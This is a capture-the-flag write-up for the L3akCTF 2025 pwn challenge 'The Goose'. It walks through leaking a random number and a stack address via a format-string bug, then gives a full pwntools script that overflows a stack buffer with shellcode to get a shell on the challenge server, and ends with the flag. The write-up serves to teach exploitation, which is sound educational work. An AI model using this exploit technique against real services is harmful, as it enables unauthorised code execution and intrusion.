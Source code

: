 ```yaml
---
title: The Goose
date: 2025-07-14T21:39:11+03:00
description: Writeup for The Goose [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

When the honking gets tough, you better brush up on your basics

We are greeted by a goose, that asks us to guess a number. If we guess correctly we get to write a message to the world.

## Intuition

The protections enabled on the binary tell us that we probably are expected to execute a shell payload from the stack.
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

## Solution

Sifting through the code with Ghidra we see that `highscore` is an interesting function\
There is a printf where we control the format string followed by a read of greater size than the stack frame of `0x170`.
```C
  printf("what\'s your name again?");
  __isoc99_scanf(&DAT_001024eb,local_78);
  local_d9 = 0;
  sprintf(local_f8,(char *)&local_58,local_78);
  printf(local_f8);
  read(0,local_178,0x400);
  printf("got it. bye now.");
```
Where `sprintf` is like `printf` but instead of printing it puts the result in `local_f8`.\
To get there though, we must guess a random number generated by the process.
```C
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  setuser();
  iVar1 = rand();
  nhonks = iVar1 % 0x5b + 10;
  iVar1 = guess();
  if (iVar1 == 0) {
    puts("tough luck. THE GOOSE WINS! GET THE HONK OUT!");
  }
  else {
    highscore();
  }
```
The number is generated before we are asked to guess, which suggests, that it too, must be leaked.\
If we search for it at runtime, we can find it with the global variables, right after the username. Username that gets printed after the number is generated.\
With a long username set in the `setuser` function we get to leak the random value.
```python
position_of_leaked_rand = -18
print(target.sendlineafter(b'e call you?', b'a' * 0x40).decode())
line = target.recvuntil(b'?', timeout=2)
target.sendline(str(line[position_of_leaked_rand]).encode())
```
We send it right back to get access to the `highscore` function.\
There we are asked to input another string, which gets to be the template string for printf, function that we can exploit to leak values on the stack[^1].
```python
print(target.sendlineafter(b'again?', b'%1$p').decode())
line = target.recvuntil(b'so good',timeout=2)
```
Turns out that, on position 1, there is a stack address which we can use to compute the value of `RBP`.\
After that it's just a matter of crafting a shellcode payload, which pwntools can provide.
```python
import pwn
pwn.context.terminal = ['konsole', '-e']

target = pwn.remote('34.45.81.67', 16004)

# leak rand number on .data
position_of_leaked_rand = -18
print(target.sendlineafter(b'e call you?', b'a' * 0x40).decode())
line = target.recvuntil(b'?', timeout=2)
target.sendline(str(line[position_of_leaked_rand]).encode())

# leak stack address
print(target.sendlineafter(b'again?', b'%1$p').decode())
line = target.recvuntil(b'so good',timeout=2)
print(line.decode())

stack_add_pos = 4
offset_to_rbp = 0x4A
rbpaddr = int(line[stack_add_pos:stack_add_pos+14].decode(), base=16) + offset_to_rbp
print(hex(rbpaddr))

# build shell
pwn.context.arch = 'amd64'
buffer_size = 0x170
binshlen = rbplen = 0x8
shell = pwn.asm(pwn.shellcraft.sh())
pay = b'/bin/sh\0' + shell + b'b' * (buffer_size - binshlen - len(shell)) + b'c' * rbplen + pwn.p64(rbpaddr - buffer_size + binshlen)

print(target.sendlineafter(b'world?', pay).decode())

target.interactive()
```
And read the flag with the shell.

### Flag

`L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}`

## References

[^1]: https://pagedout.institute/download/PagedOut_004_beta1.pdf page 54
